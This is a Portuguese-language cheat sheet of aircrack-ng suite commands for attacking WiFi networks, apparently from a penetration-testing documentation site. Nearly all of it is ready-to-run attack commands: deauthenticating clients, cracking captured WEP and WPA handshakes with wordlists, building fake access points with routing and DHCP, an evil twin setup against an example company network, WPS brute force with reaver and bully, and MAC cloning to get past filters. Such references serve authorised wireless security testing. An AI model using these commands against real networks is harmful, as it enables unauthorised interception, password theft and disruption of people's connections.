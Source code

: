 ```yaml
---
id: aircrack-ng_suite
title: aircrack-ng suite
---
```


# Aircrack-ng Suite

Aircrack-ng é um conjunto completo de ferramentas para avaliar a segurança de
redes WiFi.

---

## Airmon-ng

Checando processos conflitantes:

```bash
airmon-ng check
```

Matando processos conflitantes:

```bash
airmon-ng check kill
```

Iniciando modo monitor:

```bash
airmon-ng start wlan0
```
:::caution
O nome da interface pode variar.
:::

Setando canal específico:

```bash
iwconfig wlan0mon channel 1
```

## Airodump-ng

Ver informações das redes wireless:

```bash
airodump-ng wlan0mon
```

Filtrando por canal:

```bash
airodump-ng -c 10 wlan0mon
```

Filtrando por BSSID:

```bash
airodump-ng --bssid 00:11:22:AA:BB:CC wlan0mon
```

Filtrando por tipo de criptografia:

```bash
airodump-ng --encrypt wep wlan0mon
```

Verificando redes com WPS:

```bash
airodump-ng wlan0mon --wps
```

```bash
wash -i wlan0mon -C
```

Capturando os pacotes e escrevendo em um arquivo:

```bash
airodump-ng -c 10 --bssid 00:11:22:AA:BB:CC -w capture wlan0mon
```

## Aireplay-ng

Para acelerar a captura de pacotes através do airodump-ng no ataque WEP:

```bash
aireplay-ng -3 -b 00:11:22:AA:BB:CC -h AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-b** ==> BSSID do roteador alvo.  
**-h** ==> BSSID do cliente conectado ao roteador.  

Para acelerar a captura de handshakes através do airodump-ng no ataque WPA:

```bash
aireplay-ng -0 5 -a 00:11:22:AA:BB:CC -c AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-a** ==> MAC access point.  
**-c** ==> MAC do cliente.  
**-0 5** ==> Deauth cliente 5 vezes.

## Aircrack-ng

Quebra do arquivo capturado no airodump-ng para redes WEP:

```bash
aircrack-ng capture-01.cap
```

Quebra do arquivo capturado no airodump-ng para redes WPA:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Concatenar crunch e o aircrack-ng:

```bash
crunch 15 15 -t EmpresaAlfa%%%% 0123456789 | \
  aircrack-ng captura-01.cap -w - -e EmpresaAlfa
```

## Airdecap-ng

Desencriptando pacotes escriptados em rede wireless:

```bash
airdecap-ng -w A0:11:22:33:44:55:66:77:CC:B1:B4:8A:D3 capture-01.cap
```

**-w** ==> Senha em HEX da rede.

## Airbase-ng

Criando AP Fake OPN:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi
```

Criando AP Fake WPA2:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi -Z 4
```

Configurando AP Fake para possuir acesso à internet:  
1- echo 1 > /proc/sys/net/ipv4/ip_forward  
2- iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
3- apt install isc-dhcp-server  
4- nano /etc/default/isc-dhcp-server

```conf title="/etc/default/isc-dhcp-server"
INTERFACES="at0"
```

5- nano /etc/dhcp/dhcpd.conf

```conf title="/etc/dhcp/dhcpd.conf"
option domain-name-servers 8.8.8.8, 8.8.4.4;  

default-lease-time 600;  
max-lease-time 7200;  

ddns-update-style none;

subnet 10.0.0.0 netmask 255.255.255.0 {
  range 10.0.0.10 10.0.0.100;
  option routers 10.0.0.1;
}
```

5- ifconfig at0 10.0.0.1/24  
6- service isc-dhcp-server start

## Evil Twin

Consiste em criar uma rede idêntica a do alvo.  

Criando rede através do airbase-ng:

```bash
airbase-ng wlan0mon -c 10 -e EmpresaAlfa -a 00:11:22:33:44:55 -Z 4
```

Agora iremos efetuar o Death dos clientes:

```bash
aireplay-ng wlan0mon -0 5 -a 00:11:22:33:44:55
```

*Logo os usuários irão se conectar no AP Fake.*

## Bully

Brute force em WPS:

```bash
bully wlan0mon -b 00:11:22:AA:BB:CC -e EmpresaAlfa -c 10
```

## Reaver

Brute force em WPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv
```

Ataque PixieWPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1
```

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1 -P
```

Utilizando timeout e delay:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -t 2 -d 5
```

## MAC Changer

Clonando MAC de cliente para conectar em redes com MAC Filter:

```bash
ifconfig wlan0 down  
```

```bash
macchanger -m AA:BB:CC:DD:EE:FF:99 wlan0  
```

```bash
ifconfig wlan0 up  
```

```bash
service NetworkManager  
```
